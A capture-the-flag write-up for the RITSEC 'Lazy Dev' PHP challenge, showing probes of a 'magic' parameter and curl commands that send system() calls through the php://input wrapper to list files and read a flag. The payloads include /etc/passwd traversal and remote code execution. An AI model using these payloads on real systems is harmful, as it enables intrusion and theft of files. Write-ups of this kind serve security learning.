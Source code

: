 # Lazy Dev (400p)
Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :) 

![alt text](1.png "Chall")

![alt text](2.png "Chall")

There is nothing intresting in the source of the page. The text seem to hint at the parameter 'magic'.

To add a GET parameter we can just try appending this to the end of the URL

```
?magic=asdasd
```
Still the same text:
```
Not what you input eh?
This param is 'magic' man.
```

Don't give up so easily. Let's try an array.

```
?magic[]=
```
And we get:
```
Not what you input eh?
This param is 'magic' man.

Are you trying to hack me? That's mean :(
```
Yes I am ;). What is useful from this is that we have found the correct parameter. Now we just have to exploit it.

Let's see if we can include some random file.
```
?magic=../../../../etc/passwd
```
We get:
```
    ...
	Please stay in this directory, it's for your own safety!
```
Nope....

Remote URL:
```
?magic=http://google.com
```
```
	That doesn't look like my site, who are you? :(
```
Nope.... Hmmm... What else can we do.

### Double URL encoding
```
?magic=`%252e%252e%252fetc%252fpasswd
```
```
URL Encoding? Really? :(
```
Damn... What is this challenge....

### LFI using wrapper

```
$ curl -d "AAAAABBBB" -X POST http://fun.ritsec.club:8007/devsrule.php?magic=php://input
```
```
   Not what you input eh?<br>This param is 'magic' man.<br><br>AAAAABBBB
```
Yay we have command injection using PHP Wrappers.
Lets get the flag.

```bash
$ curl -d "<?=system('ls');?>" -X POST http://fun.ritsec.club:8007/devsrule.php?magic=php://input
Not what you input eh?<br>This param is 'magic' man.<br><br>A.html
AH.html
AHA.html
AHAAHAH.html
AHH.html
AHHHA.html
AHHHHH.html
Ah.html
Ahhh.html
Away.html
Be.html
Believe.html
Call.html
Can.html
Eyes.html
Feel.html
Fireflies.html
Fl4gggg1337.html
Freedom.html
From.html
Gang.html
Get.html
Give.html
Gonna.html
Gucci.html
Ha.html
I.html
If.html
Is.html
Its.html
JokersSomeSortaHack
Just.html
Like.html
Lot.html
Love.html
Me.html
Million.html
More.html
Never.html
Not.html
Older.html
Once.html
Roll.html
Somebody.html
Stars.html
Stronger.html
Take.html
Tell.html
Ten.html
The.html
Theyll.html
To.html
Told.html
Tonight.html
Up.html
Waving.html
When.html
Will.html
World.html
Would.html
You.html
Your.html
devsrule.php
images
index.html
```

And to get the flag:

```bash
$ curl -d "<?=system('cat /home/joker/flag.txt');?>" -X POST http://fun.ritsec.club:8007/devsrule.php?magic=php://input

   RITSEC{WOW_THAT_WAS_A_PAIN_IN_THE_INPUT}
```

Fun challenge and it was definitely a pain in the input..
